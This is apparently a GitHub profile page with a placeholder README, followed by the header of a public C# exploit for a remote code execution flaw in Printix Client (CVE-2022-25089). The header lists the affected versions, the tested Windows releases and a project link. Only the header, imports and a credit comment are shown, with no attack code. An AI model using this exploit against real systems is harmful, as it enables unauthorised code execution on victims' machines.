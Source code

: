 - 👋 Hi, I’m @d3ltacros
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


git clone https://github.com/d3ltacros/d3ltacros
# Exploit Title: Printix Client 1.3.1106.0 - Remote Code Execution (RCE)
# Date: 3/1/2022
# Exploit Author: Logan Latvala
# Vendor Homepage: https://printix.net
# Software Link: https://software.printix.net/client/win/1.3.1106.0/PrintixClientWindows.zip
# Version: <= 1.3.1106.0
# Tested on: Windows 7, Windows 8, Windows 10, Windows 11
# CVE : CVE-2022-25089
# Github for project: https://github.com/ComparedArray/printix-CVE-2022-25089

using Microsoft.Win32;
using Newtonsoft.Json;
using Newtonsoft.Json.Converters;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading;
using System.Threading.Tasks;

/**
 * ________________________________________
 *
 * Printix Vulnerability, CVE-2022-25089
 * Part of a Printix Vulnerability series
 * Author: Logan Latvala
 * Github: https://github.com/ComparedArray/printix-CVE-2022-25089
 * ________________________________________
 *
 */
